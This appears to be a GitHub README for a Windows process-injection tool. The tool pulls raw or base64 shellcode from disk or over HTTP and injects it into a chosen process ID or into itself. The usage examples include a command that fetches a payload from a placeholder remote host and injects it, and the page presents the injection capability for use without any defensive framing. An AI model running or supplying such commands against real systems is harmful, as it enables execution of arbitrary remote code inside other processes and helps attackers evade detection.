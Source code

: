 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

### Usage 

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\\Temp\\app.bin bin");
```
Supported targets: Primarily, you'll want to target a process via the PID. However, it is possible to just inject into the ProcessInjection.exe process itself by using the value "self".
Supported bintypes: "b64" for base64 encoded ShellCode and "bin" for raw/binary ShellCode.
Supported binlocations: Any value that starts with `http://` or `https://` is pulled over HTTP(s). Any other value is assumed to exist on disk (or readable off a shared drive).
